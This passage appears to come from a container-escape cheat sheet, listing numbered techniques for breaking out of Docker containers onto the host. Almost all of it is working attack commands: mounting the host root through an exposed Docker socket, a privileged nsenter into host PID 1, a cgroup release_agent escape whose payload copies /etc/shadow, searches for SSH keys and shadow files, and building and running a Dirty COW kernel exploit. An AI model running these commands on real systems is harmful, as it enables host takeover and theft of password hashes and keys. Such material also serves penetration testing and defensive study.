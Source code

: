 ### 2. Docker Socket Escape
If Docker socket is mounted:
```bash
# Check for docker socket
ls -la /var/run/docker.sock

# Use docker from inside container
docker run -it -v /:/host ubuntu chroot /host

# Or create a privileged container
docker run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### 3. Capability Exploitation
Common dangerous capabilities:
```bash
# CAP_SYS_ADMIN - Mount escape
mount -t cgroup -o rdma cgroup /tmp/cgroup
echo 1 > /tmp/cgroup/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/exploit" > /tmp/cgroup/release_agent
echo '#!/bin/sh' > /exploit
echo 'cat /etc/shadow > /tmp/shadow' >> /exploit
chmod +x /exploit
sh -c "echo \$\$ > /tmp/cgroup/cgroup.procs"

# CAP_SYS_PTRACE - Process injection
# Find host processes
grep -E "^CapEff:\s*[0-9a-fA-F]+$" /proc/*/status
```

### 4. Volume Mount Escape
If sensitive host paths are mounted:
```bash
# Check mounted volumes
mount | grep -E "^/dev"
df -h

# Look for host filesystem
find / -name "*.ssh" 2>/dev/null
find / -name "shadow" 2>/dev/null
```

### 5. Kernel Exploit
For older kernels:
```bash
# Dirty COW (CVE-2016-5195)
# Check kernel version
uname -r

# If vulnerable (< 4.8.3)
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password
```
